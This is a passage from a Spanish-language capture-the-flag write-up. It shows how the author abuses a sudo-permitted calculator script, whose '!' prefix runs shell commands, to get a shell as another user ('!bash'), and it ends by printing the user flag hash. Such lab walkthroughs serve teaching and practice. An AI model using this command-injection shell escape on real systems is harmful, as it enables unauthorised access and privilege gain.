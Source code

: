Vemos que podemos ejecutar como el usuario `200-ok` el script de `calculator.py` por lo que haremos lo siguiente.

Si ejecutamos ese script vemos que es una calculadora normal, pero si leemos una nota en el siguiente directorio.

```shell
cat /var/www/nota.txt
```

Info:

```
In the calculator I don't know what the symbol is used for "!" followed by something else, only 200-ok knows.
```

Nos da una pista de que probemos poniendo el simbolo `!` por delante y poner algo, por ejemplo ejecutare un `ls` poniendo el `!` por delante.

```shell
sudo -u 200-ok /home/404-page/calculator.py

#Dentro del script
!ls -la
```

Info:

```
total 36
drwxr-xr-x 1 404-page 404-page 4096 Aug 19 12:30 .
drwxr-xr-x 1 root     root     4096 Aug 19 11:21 ..
-rw------- 1 404-page 404-page  170 Aug 19 11:31 .bash_history
-rw-r--r-- 1 404-page 404-page  220 Aug 19 11:19 .bash_logout
-rw-r--r-- 1 404-page 404-page 3771 Aug 19 11:19 .bashrc
drwx------ 2 404-page 404-page 4096 Aug 19 12:30 .cache
-rw-r--r-- 1 404-page 404-page  807 Aug 19 11:19 .profile
-rwx--x--x 1 200-ok   200-ok    784 Aug 19 11:23 calculator.py
```

Vemos que nos deja ejecutar comando con un `!` delante, por lo que obtendremos la shell del usuario `200-ok` de la siguiente forma.

```shell
sudo -u 200-ok /home/404-page/calculator.py

#Dentro del script
!bash
```

Y con esto ya seremos el usuario `200-ok`, por lo que leeremos la flag.

> user.txt

```
bef4bb318a17abd01158337811750bcf
```

## Escalate Privileges
